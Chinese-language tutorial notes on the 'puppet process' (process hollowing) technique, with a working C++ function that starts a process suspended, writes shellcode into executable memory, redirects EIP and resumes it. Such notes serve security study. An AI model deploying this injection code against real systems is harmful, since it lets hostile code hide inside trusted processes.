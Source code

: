 ## 2.傀儡进程

### 实现原理:

修改指定进程内存数据,向内存中写入ShellCode代码,并修改该进程的执行流程，使其转而执行ShellCode代码,这样进程还是原来的进程,但是执行的操作变了。

### 关键技术点:

一.写入ShellCode的时机
二.更改执行流程的方法
	CreateProcess提供CREATE_SUSPENDED作为线程创建后主进程挂起的标志，这时主线程处于挂起状态，直到ResumeThread恢复线程,方可执行。使用SetThreeadContext可以修改线程上下文中的EIP数据。

### 实现流程:

1. CreateProcess创建进程，设置CREATE_SUSPENDED挂起进程标志

2. 调用VirtualAllocEx函数在新进程申请一个可读可写可执行的内存，并调用WriteProcessMemory写入ShellCode数据,考虑到傀儡进程内存占用过大的问题，也可以调用ZwUnmapViewOfSection函数卸载傀儡进程并加载模块

3. 调用GetThreeadContext,设置获取标志CONTEXT_FULL,修改EIP,再调用SetThreeadContext

4. 调用ResumeThread恢复进程

   ```c++
   BOOL ReplaceProcess(WCHAR* pszFilePath, PVOID pRelaceData, DWORD dwReplaceDataSize, DWORD dwRunOffset)
   {
   	//1. CreateProcess创建目标进程,设置CREATE_SUSPENDED挂起进程标志
   	STARTUPINFO stcSi = { 0 };
   	stcSi.cb = sizeof(stcSi);
   	PROCESS_INFORMATION stcPi = { 0 };
   	BOOL bRet = CreateProcessW(pszFilePath, NULL, NULL, NULL, FALSE, CREATE_SUSPENDED,
   		NULL, NULL, &stcSi, &stcPi);
   	if (!bRet)
   	{
   		printf("创建进程失败\n");
   		return FALSE;
   	}
   	//2. 调用VirtualAllocEx函数在新进程申请一个可读可写可执行的内存,并调用WriteProcessMemory
   	//写入ShellCode数据, 考虑到傀儡进程内存占用过大的问题, 也可以调用ZwUnmapViewOfSection函数卸载
   	//傀儡进程并加载模块
   	LPVOID lpBuffer = VirtualAllocEx(stcPi.hProcess, NULL, dwReplaceDataSize,
   		MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
   	if (!lpBuffer)
   	{
   		printf("申请内存失败\n");
   		return FALSE;
   	}
   	WriteProcessMemory(stcPi.hProcess, lpBuffer, pRelaceData, dwReplaceDataSize, NULL);
   	//3.调用GetThreeadContext,设置获取标志CONTEXT_FULL,修改EIP,再调用SetThreeadContext
   	CONTEXT stcCt = { CONTEXT_FULL };
   	GetThreadContext(stcPi.hThread, &stcCt);
   	stcCt.Eip = (DWORD)lpBuffer + dwRunOffset;
   	SetThreadContext(stcPi.hThread, &stcCt);
   	//4.调用ResumeThread恢复进程
   	ResumeThread(stcPi.hThread);
   	return TRUE;
   }
   ```
